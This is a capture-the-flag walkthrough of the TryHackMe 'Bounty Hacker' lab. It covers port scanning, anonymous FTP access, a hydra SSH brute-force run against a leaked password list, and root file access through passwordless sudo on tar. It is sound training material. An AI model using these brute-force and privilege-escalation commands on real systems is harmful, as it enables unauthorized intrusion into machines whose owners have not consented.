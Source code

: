 
# Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Conclusion](#conclusion)

## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Now that we're connected to the TryHackMe server, we can proceed with enumerating the target machine. First, we need to check for open ports on the target:

> Be sure to deploy the machine before proceeding >.>

```console
$ sudo nmap -sS -p- -v MACHINE_IP
...
...
Discovered open port 80/tcp on MACHINE_IP
Discovered open port 22/tcp on MACHINE_IP
Discovered open port 21/tcp on MACHINE_IP
...
PORT      STATE  SERVICE         REASON
...
21/tcp    open   ftp             syn-ack ttl 63
22/tcp    open   ssh             syn-ack ttl 63
80/tcp    open   http            syn-ack ttl 63
...
...
```

We now know that the target machine has 3 open ports: `21`, `22` and `80` for services: `ftp`, `ssh` and `http` respectively.

We can now use this to work our way to gaining access into the target machine...

## Gaining Access 

Let's first proceed with trying to log into the ftp server on the target using the `ftp` command:

```console
$ ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.3)
Name (MACHINE_IP:novusedge): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files. 
ftp> 
```

Using the username: `anonymous` granted us access to the ftp server. Now we can check for any files that we can grab:

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

There are 2 files, `locks.txt` and `task.txt`. We can download them to our local machine like so:

```console
ftp> get locks.txt

ftp> get task.txt
```

Now, since we have the files, let's exit out, and check the contents of the files thus obtained...

task.txt: 
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt:
```txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

From the contents of the first file, we get the answer to the third task on the challenge.

> Who wrote the task list?
> > Answer: lin

As the fourth task suggests, the file: `locks.txt` contains possible passwords for the ssh service on the target machine. Assuming that `lin` is the username we use for logging into the ssh server, we can brute-force this by using a tool like `hydra`:


```console
$ hydra -l lin -P locks.txt MACHINE_IP ssh
...
[22][ssh] host: MACHINE_IP   login: lin   password: RedDr4gonSynd1cat3
...
```

This gives us the answer to fifth task:
> What is the users password? 
> > RedDr4gonSynd1cat3

Let's try logging into the ssh server on the target with the credentials we've obtained:

```console
$ ssh lin@MACHINE_IP 
lin@MACHINE_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Thu Jun 23 13:06:21 2022 from 10.11.69.69

lin@bountyhacker:~/Desktop$
```

We can get the user flag from lin's home directory:

```console
lin@bountyhacker:~/Desktop$ ls
user.txt

lin@bountyhacker:~/Desktop$ cat user.txt
===R E D A C T E D===
```

This gives us the answer to the 6th task:
> user.txt
> > ===R E D A C T E D===


## Privilage Escalation

Now that we have a foothold, we can now proceed with getting root privilages :3
First, let's check if we have any commands we can execute with root privilages and no passwords:

```console
lin@bountyhacker:~/Desktop$ sudo -ll
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:

Sudoers entry:
    RunAsUsers: root
    Commands:
	/bin/tar
```

Interesting...We can use the `tar` command as root without passwords. Assuming that the `root.txt` is in the `/root/` directory, we can use the following to create a tar archive of all files in the `/root/` directory in `/home/lin/Desktop`:

```console
lin@bountyhacker:~/Desktop$ sudo tar -cf files.tar /root
tar: Removing leading `/' from member names

lin@bountyhacker:~/Desktop$ ls
files.tar  user.txt

# Uncompressing the tar archive to get the files:
lin@bountyhacker:~/Desktop$ tar -xf files.tar 
lin@bountyhacker:~/Desktop$ ls -l
-rw-r--r-- 1 root root 20480 Jun 23 13:21 files.tar
drwx------ 5 lin  lin   4096 Jun  7  2020 root
-rw-rw-r-- 1 lin  lin     21 Jun  7  2020 user.txt

lin@bountyhacker:~/Desktop$ ls -l root/
total 4
-rw-r--r-- 1 lin lin 19 Jun  7  2020 root.txt
```

We can now just `cat` the contents of our `root.txt` file thus obtained:

```console
lin@bountyhacker:~/Desktop$ cat root/root.txt 
===R E D A C T E D===
```

Done! This gives the answer to the final task.

> root.txt
> > ===R E D A C T E D===

## Conclusion

I hope this writeup was useful. Personally, I found this room to be quite a fun little experience. If you liked this, please consider dropping a star and/or following me on github: https://github.com/NovusEdge

***

- Room  : [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) by [Sevuhl](https://tryhackme.com/p/Sevuhl)
- Author: Aliasgar Khimani
